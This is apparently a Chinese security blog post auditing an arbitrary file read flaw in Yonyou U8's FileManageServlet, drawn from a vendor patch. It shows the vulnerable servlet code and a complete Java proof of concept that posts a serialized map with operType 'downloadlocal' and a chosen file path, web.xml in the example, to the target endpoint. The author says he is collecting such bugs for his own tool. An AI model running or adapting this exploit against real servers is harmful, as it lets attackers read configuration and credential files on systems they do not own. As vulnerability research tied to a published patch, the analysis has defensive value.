 #  代码审计| U8 FileManageServlet 文件读取漏洞分析   
原创 莫大130  安全逐梦人   2025-05-24 04:36  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6yVSWIvtpaxOLmmsyWjSTyGibtI49d7iaYo9RhqS1azVEx5250U07f02wmfW0ypaSFe9OCnWWKG8Ww/640?wx_fmt=png&from=appmsg "")  
  
最近在写工具，分析官方漏洞补丁给自己的工具添加上一些day，这些day可能用不到，万一有一天用到了呢  
  
补丁链接 https://security.yonyou.com/#/noticeInfo?id=680  
#### 漏洞分析  
  
补丁代码 限制下载路径必须在 ${NCHome}/mpEA/  
 目录下，防止路径穿越攻击  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6yVSWIvtpaxOLmmsyWjSTySXYddRpEcAuib6icxKWY7DFMhLibuMU8vQ3XLwSNAxqlDIr5e1PNAFEGw/640?wx_fmt=png&from=appmsg "")  
  
  
存在漏洞的代码  
```
private voiddoDownLoadFileLocal(HashMap<String, Object> headInfo, HttpServletResponse response) {      Stringpath= (String)headInfo.get("path");      OutputStreamout=null;      InputStreamin=null;      try {          out = response.getOutputStream();          in = newFileInputStream(path);          byte[] b = newbyte[1024];          int len;          while((len = in.read(b)) > 0) {              response.getOutputStream().write(b, 0, len);          }          out.flush();      } catch (Exception var16) {          Logger.error(var16.getMessage(), var16);          var16.printStackTrace();      } finally {          try {              if (out != null) {                  out.close();              }              if (in != null) {                  in.close();              }          } catch (IOException var15) {              var15.printStackTrace();          }      }  }
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6yVSWIvtpaxOLmmsyWjSTy9knflO3D57xVNa9icib8RXeFwW14OJ9ytuN3o0Dds5GPbqWWib5BVSmCg/640?wx_fmt=png&from=appmsg "")  
  
doAction 构造参数进入doDownLoadFileLocal  
 方法，触发文件读取漏洞  
```
public voiddoAction(HttpServletRequest request, HttpServletResponse response)throws ServletException, IOException {      ObjectInputStreamin=null;      try {          in = newObjectInputStream(request.getInputStream());          HashMap<String, Object> headInfo = (HashMap)in.readObject();          StringdsName= (String)headInfo.get("dsName");          InvocationInfoProxy.getInstance().setUserDataSource(dsName);          Stringoper= (String)headInfo.get("operType");          if ("upload".equals(oper)) {              this.doUploadFile(headInfo, in, response);          } elseif ("download".equals(oper)) {              this.doDownLoadFile(headInfo, response);          } elseif ("downloadlocal".equals(oper)) {              this.doDownLoadFileLocal(headInfo, response);          }      } catch (Exception var10) {          var10.printStackTrace();      } finally {          if (in != null) {              in.close();          }      }  }
```  
  
进入  
doDownLoadFileLocal   
方法，主要在head头构造   
operType  
  
使用java来构造数据包和发送HTTP请求  
```
import java.io.*;  import java.net.HttpURLConnection;  import java.net.InetSocketAddress;  import java.net.Proxy;  import java.net.URL;  import java.util.HashMap;  publicclassMain {      publicstaticvoidmain(String[] args)throws Exception {          // 构造 payload        HashMap<String, Object> map = new HashMap<>();          map.put("dsName", "testDs");          map.put("operType", "downloadlocal");          map.put("path", "C:\\U8CERP50sp\\webapps\\u8c_web\\WEB-INF\\web.xml");  // 替换成你要读取的路径          // 设置代理地址和端口（Burp 默认是 127.0.0.1:8080）          Proxyproxy=newProxy(Proxy.Type.HTTP, newInetSocketAddress("192.168.1.101", 8080));          // 目标 URL        URL url = new URL("http://192.168.1.102:8089/service/FileManageServlet");          // 使用代理建立连接          HttpURLConnectionconn= (HttpURLConnection) url.openConnection(proxy);          conn.setDoOutput(true);          conn.setRequestMethod("POST");          conn.setRequestProperty("Content-Type", "application/octet-stream");          // 写入序列化对象          ObjectOutputStreamoos=newObjectOutputStream(conn.getOutputStream());          oos.writeObject(map);          oos.flush();          oos.close();          // 打印响应内容          BufferedReaderin=newBufferedReader(newInputStreamReader(conn.getInputStream()));          String line;          while ((line = in.readLine()) != null)              System.out.println(line);          in.close();      }  }
```  
  
为了方便，就使用java实现发包复现漏洞  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6yVSWIvtpaxOLmmsyWjSTyYSUia7y0jzibibVe3wfsJ9u9DVvzS5hiaJQaUy2pUrv0xVzRxuDIqB8ZcQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6yVSWIvtpaxOLmmsyWjSTyHyIV49NVl7wUom6CSWJHByftMrCFkqNVtGj6Yd40iaIhiczGXc23Jz7g/640?wx_fmt=png&from=appmsg "")  
  
  
